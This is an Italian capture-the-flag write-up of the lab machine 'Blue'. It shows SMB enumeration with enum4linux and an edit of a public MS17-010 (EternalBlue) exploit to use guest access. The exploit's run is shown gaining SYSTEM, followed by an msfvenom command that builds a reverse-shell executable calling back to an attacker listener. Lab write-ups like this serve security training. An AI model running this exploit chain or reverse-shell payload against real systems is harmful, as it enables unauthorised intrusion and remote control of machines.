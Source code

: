 Avevo già [[Legacy#^a32b2b|mysmb.py]] in quanto l'avevamo gia usato un altra macchina [[Legacy]] lo copiamo nella directory corrente 

con enum4linux possiamo vedere che l'accesso guest è supportato.

```bash
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/LinEnum]
└─# enum4linux 10.10.10.40
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue May 30 09:39:05 2023

 =========================================( Target Information )=========================================

Target ........... 10.10.10.40
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```

Modifichimao il l'exploit come segue per testasre se risuciamo ad scrivre sulla macchina target
```python2
USERNAME = 'guest'
PASSWORD = ''
```

Lanciamo l'exploit per esegurie un test 

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# python2 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8003602260
SESSION: 0xfffff8a00bf8eca0
FLINK: 0xfffff8a012830088
InParam: 0xfffff8a01282a15c
MID: 0xc03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

Funziona non ci resta che creare la revshell come segue:

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.9 LPORT=4444 > eternal-blue.exe
```
